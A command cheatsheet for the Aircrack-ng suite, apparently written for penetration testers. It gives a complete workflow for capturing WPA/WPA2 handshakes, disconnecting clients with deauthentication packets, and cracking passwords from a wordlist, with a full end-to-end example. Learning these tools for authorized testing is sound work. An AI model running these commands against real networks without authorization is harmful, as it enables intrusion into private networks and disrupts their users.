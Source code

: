 This cheatsheet includes essential commands for wireless network auditing and WPA/WPA2 password cracking using the Aircrack-ng suite.

> ⚠️ For educational and authorized penetration testing only.

bash

# Step 1: Enable Monitor Mode

sudo airmon-ng                       # List available wireless interfaces

sudo airmon-ng start wlan0           # Start monitor mode on wlan0

sudo airmon-ng stop wlan0mon         # Stop monitor mode (return to managed mode)

# Step 2: Discover Wi-Fi Networks

sudo airodump-ng wlan0mon                                 # List all nearby Wi-Fi networks

sudo airodump-ng --bssid <BSSID> -c <channel> -w handshake wlan0mon  # Capture handshake from specific network

# Step 3: Deauthenticate Clients to Capture Handshake
sudo aireplay-ng -0 5 -a <BSSID> wlan0mon                 # Send 5 deauthentication packets

# Step 4: Crack WPA/WPA2 Password
aircrack-ng -w wordlist.txt -b <BSSID> handshake.cap      # Use wordlist to crack captured handshake

# Additional Aircrack-ng Commands

aircrack-ng --help            # Full help menu

aircrack-ng -u                # Processor/SIMD information

aircrack-ng -S                # Benchmark speed

aircrack-ng --simd-list       # List supported SIMD types

aircrack-ng -J file.hccap     # Convert capture to Hashcat format

aircrack-ng -E file.ewsa      # Generate Elcomsoft project file

aircrack-ng -C <macs>         # Merge multiple APs into one virtual AP

# Tools from Aircrack-ng Suite

airmon-ng         # Manage monitor mode

airodump-ng       # Scan and log networks

aireplay-ng       # Inject packets (e.g., deauth attacks)

aircrack-ng       # Crack passwords

airolib-ng        # Manage network/password databases

packetforge-ng    # Create custom packets for injection

# Example: Full Handshake Capture and Crack

sudo airmon-ng start wlan0

sudo airodump-ng wlan0mon

sudo airodump-ng --bssid <BSSID> -c <CH> -w capture wlan0mon

sudo aireplay-ng -0 10 -a <BSSID> wlan0mon
aircrack-ng -w rockyou.txt -b <BSSID> capture.cap

aircrack-ng -w wordlist.txt -b <BSSID> capture.cap

